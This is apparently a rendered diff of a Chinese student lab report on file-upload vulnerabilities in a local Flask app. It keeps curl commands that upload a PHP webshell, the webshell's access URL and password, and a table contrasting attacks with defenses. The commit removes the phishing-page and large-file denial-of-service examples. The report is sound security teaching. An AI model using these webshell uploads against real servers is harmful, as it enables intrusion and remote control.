

Before and after one commit to 18349455781/college-training-project, a Markdown page: Day4/Day4-文件上传漏洞实验报告-敬君琳.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Day4/Day4-文件上传漏洞实验报告-敬君琳.md
+++ b/Day4/Day4-文件上传漏洞实验报告-敬君琳.md
@@ -429,8 +379,6 @@ curl -X POST "http://127.0.0.1:5000/upload" \
 | Python Webshell | 可上传 | 被拦截（.py 不在白名单） |
 | PHP 一句话木马 | 可上传 | 被拦截（.php 不在白名单） |
 | 中国蚁剑连接 | 可连接控制 | 无法上传 Webshell，无法连接 |
-| HTML 钓鱼页面 | 可上传部署 | 被拦截（.html 不在白名单） |
-| 大文件 DOS | 可上传（16MB 内） | 应配合频率限制和用户配额 |
 | 正常图片上传 | 正常 | 正常（不受影响） |
 
 ---
@@ -467,7 +415,7 @@ curl -X POST "http://127.0.0.1:5000/upload" \
 | **secure_filename** | 过滤路径穿越字符（`../`、`/` 等） | 阻止目录穿越攻击 |
 | **UUID 重命名** | 随机文件名，攻击者无法预测访问路径 | 即使上传成功也无法访问 |
 | **独立存储** | 上传文件保存到非 Web 根目录，通过专用接口读取 | 阻止直接 URL 访问执行脚本 |
-| **频率限制** | 限制单用户单位时间上传次数 | 阻止大文件 DOS 攻击 |
+| **频率限制** | 限制单用户单位时间上传次数 | 阻止恶意批量上传 |
 | **病毒扫描** | 使用 ClamAV 等工具扫描上传文件 | 阻止恶意代码文件 |
 
 ### 8.3 为什么不能用"黑名单"？
@@ -602,11 +550,6 @@ curl -X POST "http://127.0.0.1:5000/upload" \
 curl -X POST "http://127.0.0.1:5000/upload" \
   -b "session=<登录后的session>" \
   -F "file=@ant.php"
-
-# 上传 HTML 钓鱼页面
-curl -X POST "http://127.0.0.1:5000/upload" \
-  -b "session=<登录后的session>" \
-  -F "file=@login-fake.html"
 ```
 
 ### A.2 PHP 一句话木马（ant.php）
@@ -622,15 +565,3 @@ URL: http://127.0.0.1:5000/static/uploads/ant.php
 密码: cmd
 类型: PHP
 ```
-
-### A.4 大文件 DOS 攻击
-
-```bash
-# 生成 15MB 文件
-dd if=/dev/zero of=bigfile.bin bs=1M count=15
-
-# 上传
-curl -X POST "http://127.0.0.1:5000/upload" \
-  -b "session=<登录后的session>" \
-  -F "file=@bigfile.bin"
-```
````
Also changed, not shown: other parts of Day4/Day4-文件上传漏洞实验报告-敬君琳.md (+0 -50 lines).
